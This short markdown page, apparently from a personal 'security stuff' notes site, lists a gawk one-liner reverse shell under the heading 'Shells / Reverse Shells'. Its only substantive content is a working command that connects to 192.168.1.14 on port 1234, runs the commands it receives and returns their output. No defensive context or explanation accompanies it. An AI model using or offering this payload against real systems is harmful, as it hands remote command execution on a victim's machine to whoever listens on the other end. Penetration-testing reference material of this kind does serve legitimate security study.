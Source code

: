 ```yaml
---
layout: default
title: gawk
parent: Shells / Reverse Shells
grand_parent: security stuff
nav_order: 2
---
```


## gawk 
1. gawk one-liner reverse shell  
```gawk 
gawk 'BEGIN{s="/inet/tcp/0/192.168.1.14/1234"; for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

---

